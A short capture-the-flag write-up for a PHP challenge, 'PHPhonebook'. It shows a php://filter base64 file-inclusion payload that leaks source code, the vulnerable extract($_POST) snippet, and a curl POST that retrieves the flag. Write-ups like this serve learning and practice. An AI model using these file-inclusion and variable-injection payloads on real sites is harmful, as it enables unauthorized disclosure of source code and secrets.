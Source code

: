 ### PHPhonebook

Visiting the site, you can see that the location "phphonebook.php" is referenced, however visiting the url as suggested (`/index.php/?file=phphonebook.php
`) it returns a blank page.

However, there is a trick to get around this - if you add a php filter on it so it encodes the content to base64 as demonstrated below:
`/index.php/?file=php://filter/convert.base64-encode/resource=phphonebook.php`

This returns the source code which contains a very interesting piece of php.
```<?php
    extract($_POST);

    if (isset($emergency)){
        echo(file_get_contents("/flag.txt"));
    }
```
This essentially means, if there is a variable in the POST request named `emergency`, it will retrieve the contents of /flag.txt.
We did this in two ways, with burpsuite and with curl, but the curl request was much more simple, all was needed was:
`curl -X POST 'http://jh2i.com:50002/index.php/?file=phphonebook.php' -d 'emergency=999' | grep flag
`

Voila, the flag is returned.
A relatively simple challenge, but it was definitely interesting to learn about the base64 filter.
